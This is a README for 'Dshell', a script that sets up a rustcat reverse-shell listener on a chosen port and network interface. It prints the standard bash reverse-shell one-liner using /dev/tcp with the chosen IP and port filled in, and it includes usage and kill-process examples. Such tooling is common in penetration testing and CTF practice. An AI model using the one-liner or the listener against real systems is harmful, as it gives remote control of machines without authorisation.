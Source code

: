 # Dshell

<br>

> "A reverse shell shows that true control comes when the target reaches back willingly."

<br>

**Dshell** is a reverse shell script that prepares a responsive shell on a specified port using [rustcat](https://github.com/robiot/rustcat).

<br>

## Features

* Quickly set up a reverse shell listener.
* Kill running Dshell processes on demand.
* Supports multiple network interfaces by default.

<br>

## Installation

Ensure [rustcat](https://github.com/robiot/rustcat) is installed on your system.

<br>

## Usage

### Help Menu

```sh
dshell -h

[Info] Usage:
    /usr/local/bin/dshell -p <PORT> [IFACE|IP]
    /usr/local/bin/dshell -k <PORT|all>
```

### Run a Listener

```sh
dshell -p <PORT> [IFACE|IP]
```

Dshell will output the most commonly used reverse shell `bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'` with the supplied IP and PORT
If no interface or IP is supplied, Dshell will try the following interfaces in order:

* `tun1`
* `tun0`
* `wlan0`
* `eth0`
* `lo`

### Kill Running Processes

```sh
dshell -k <PORT|all>
```

* `<PORT>` 		– Kill Dshell process running on a specific port.
* `all` 		– Kill all Dshell processes.

<br>

### Examples

Start a listener on port `4444` using `tun0` interface:

```sh
dshell -p 4444 tun0
```

Start a listener on port `4444` using the IP `1.1.1.1`:

```sh
dshell -p 4444 1.1.1.1
```

Kill `all` running Dshell processes:

```sh
dshell -k all
```

Kill Dshell processe that is listening on port `4444`:

```sh
dshell -k 4444
```
